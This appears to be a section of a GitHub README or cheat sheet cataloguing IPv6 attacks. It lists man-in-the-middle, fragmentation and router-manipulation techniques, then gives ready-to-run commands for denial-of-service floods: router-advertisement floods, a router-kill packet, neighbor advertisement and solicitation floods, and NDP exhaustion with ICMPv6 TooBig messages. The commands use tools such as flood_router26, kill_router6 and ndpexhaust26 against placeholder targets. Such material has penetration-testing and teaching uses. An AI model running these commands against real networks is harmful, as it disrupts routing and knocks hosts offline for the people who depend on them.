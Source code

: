 
### MITM
* Router Advertisement MITM
* Neighbor Solitication Interceptor

### Fragmentations
* Predictable fragment ID identification values
* Atomic fragments
* Fragment reassembly policy
* Fragment firewall and implementation tests


### Others
* Advertise a malicious Current Hop Limit 
* Advertise a malicious MTU
* Disable an Existing Router
* BlackHole


### Denial of Services :trollface:


#### Router Advertisement :+1:
Flood the local network with router advertisements. Many OS do not have an upper limit to the number of network a machine can belong to. All their resources can be consumed trying to join thousands of fake IPv6 networks.<br />
`$ sudo ./flood_router26 eth0`


#### Router lifetime 0
Router Advertisement with Router Lifetime set to 0. It announce to 'ff02:1' that a router is going down 
to delete it from the routing tables. '*' as router-address will sniff the network for RAs and
immediately send a kill packet.<br />
`$ sudo ./kill_router6 eth0 ROUTERADDR`


#### Neighbor Advertisement
Flood the local network with neighbor advertisements. The performance on IPv6 host neighbor tables will degrade and cause a DoS.<br />
`$ sudo ./flood_advertise6 eth0 TARGETIPv6ADDR`<br />
`$ sudo ./na6 -i eth0 --target TARGETIPv6ADDR --dst-address ff02::1 --override -E 1:2:3:4:5:6 --loop --verbose`


#### Neighbor Solicitation :+1:
Flood the network with neighbor solicitations. If no target is supplied, query address will be 'ff02::1'.<br />
`$ sudo ./flood_solicitate6 eth0 TARGETIPv6ADDR`


#### T0ooBig error messages0
Flood the target /64 network with ICMPv6 TooBig error messages.<br />
Perform NDP Exhaustion attacks with ICMPv6 TooBig and EchoRequest (Fortinet & Cisco sensitive from Fernando Gont test)<br />
`$ sudo ./ndpexhaust26 -c -r -p eth0 TARGETIPv6ADDR`
